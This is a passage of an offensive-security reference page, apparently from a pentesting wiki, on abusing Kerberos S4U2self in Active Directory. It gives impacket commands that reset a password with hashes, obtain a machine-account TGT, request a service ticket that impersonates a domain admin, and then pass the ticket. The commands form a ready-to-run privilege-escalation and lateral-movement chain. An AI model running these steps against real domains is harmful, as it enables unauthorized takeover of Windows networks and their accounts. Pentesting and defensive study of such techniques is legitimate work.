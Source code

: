 ```bash
# The password can then be reset to its old value (or another one if the domain policy forbids it, which is usually the case)
impacket-changepasswd -hashes :TGTSessionKey -newhashes :OldNTHash 'domain'/'controlledaccountwithoutSPN'@'DomainController'
```
# S4U2self Abuse

Simply put, Service for User to Self (S4U2self) allows a service to obtain a Service Ticket, on behalf of a user (called "principal"), to itself.

Last but not least, S4U2self can be used to produce a Service Ticket to oneself on behalf of another domain user, even if that user is "sensitive for delegation" or member of the Protected Users group. Consequently, this allows attackers, in very specific scenarios, to escalate their privileges or perform lateral movements.

## Abuses

1. Obtain a machine account TGT

```bash
impacket-getTGT -dc-ip "$DC_IP" -hashes :"$NT_HASH" "$DOMAIN"/"machine$"
```

2. Obtain a Service Ticket

```bash
export KRB5CCNAME="/path/to/ticket.ccache"
impacket-getST -self -impersonate "DomainAdmin" -altservice "cifs/machine.domain.local" -k -no-pass -dc-ip "DomainController" "domain.local"/'machine$'
```

**Step 3**: Pass-the-ticket 🛂

Once the ticket is obtained, it can be used with [pass-the-ticket](https://www.thehacker.recipes/ad/movement/kerberos/ptt).